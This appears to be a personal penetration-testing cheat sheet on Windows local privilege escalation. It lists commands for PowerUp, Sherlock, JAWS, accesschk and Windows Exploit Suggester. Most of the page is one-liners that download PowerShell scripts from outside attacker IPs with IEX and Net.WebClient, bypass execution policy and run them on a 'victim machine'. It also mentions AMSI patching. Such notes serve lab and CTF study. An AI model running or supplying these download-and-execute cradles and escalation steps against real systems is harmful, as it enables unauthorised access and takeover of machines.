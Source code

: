 ### Don't forget to make command with extension 
```
PS C:\users\public\downloads> . 
.\PowerUp.ps1PS C:\users\public\downloads> Invoke-AllChecks
```

###Service
```
https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#services
./accesschk.exe -ucqv -accepteula UsoSvc 
Get-WmiObject win32_service | Format-Table -Wrap -AutoSize -Property State,Name,PathName 
```


https://github.com/gtworek/Priv2Admin

https://github.com/frizb/Windows-Privilege-Escalation
AMSI PATCH
https://recipeforroot.com/advanced-powerup-ps1-usage/

###powershell with Priv checker
```
powershell -ep bypass
PS C:\> Import-Module PowerUp.ps1

PS C:\> . .\PowerUp.ps1
```
![image](https://user-images.githubusercontent.com/9059079/118397345-7f3fdd80-b621-11eb-805e-df3757f8e371.png)

```


PS C:\Users\merlin\Desktop> PS C:\Users\merlin\Desktop> powershell.exe -exec bypass -Command "& {Import-Module .\Sherlock.ps1; Find-AllVulns}"
PS C:\users\merlin\appdata\local\temp> iex(new-object net.webclient).downloadstring('http://10.10.14.5/Sherlock.ps1')
PS C:\users\merlin\appdata\local\temp> Find-AllVulns

c:\>powershell.exe "IEX(New-Object Net.WebClient).downloadString('http://192.168.1.2:8000/PowerUp.ps1') ; Invoke-AllChecks"

c:\>powershell.exe -ExecutionPolicy Bypass -noLogo -Command "IEX(New-Object Net.WebClient).downloadString('http://192.168.1.2:8000/powerup.ps1') ; Invoke-AllChecks"

c:\>powershell.exe "IEX(New-Object Net.WebClient).downloadString('http://192.168.1.2:8000/Sherlock.ps1') ; Find-AllVulns"

If you have your ps1 file downloaded to the victim machine then run using this
c:\>powershell.exe -exec bypass -Command "& {Import-Module .\Sherlock.ps1; Find-AllVulns}"

c:\>powershell.exe -exec bypass -Command "& {Import-Module .\PowerUp.ps1; Invoke-AllChecks}"
```
#
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.14.124:8111/Sherlock.ps1'); Find-AllVulns

Post Exploit Enum Scripts:
JAWS - Just Another Windows (Enum) Script
```
\Inetpub>icacls wwwroot
```
Usage:

Run from within CMD shell and write out to file.

powershell -exec bypass -c (new-object System.Net.WebClient).DownloadFile('http://10.10.15.24/jaws.ps1','C:\Windows\temp\jaws.ps1')
CMD C:\Windows\temp> powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt
Run from within CMD shell and write out to screen.

CMD C:\temp> powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1
Run from within PS Shell and write out to file.

PS C:\temp> .\jaws-enum.ps1 -OutputFileName Jaws-Enum.txt
WinPrivCheck by ihack4falafel

Sherlock – New one is Watson
```
PS C:\inetpub\drupal-7.54> IEX(New-Object Net.WebClient).downloadString('http://10.10.14.124:8000/Sherlock.ps1') ; Find-AllVulns
C:\inetpub\drupal-7.54>powershell.exe -ExecutionPolicy Bypass -File jaws-enum.ps1
```
PentestMonkey Windows-privesc-check is standalone executable that runs on Windows systems. It tries to find misconfigurations that could allow local unprivileged users to escalate privileges to other users or to access local apps (e.g. databases).

Exploit Suggester For this one, we need to grab the output of systeminfo and then run it against the script. -- Update the database: ./windows-exploit-suggester.py --update
./windows-exploit-suggester.py --database 2018-10-28-mssb.xlsx --systeminfo winsysinfo.txt
OR
-- If we only know about the Operating System name and not much about the hot-fixes, then possible exploits for an operating system can be used without hotfix data
```
./windows-exploit-suggester.py --database 2018-10-28-mssb.xlsx --ostext 'windows server 2008 r2'
```
```
wmic qfe get Caption,Description,HotFixID,InstalledOn

https://guide.offsecnewbie.com/privilege-escalation/windows-pe
```
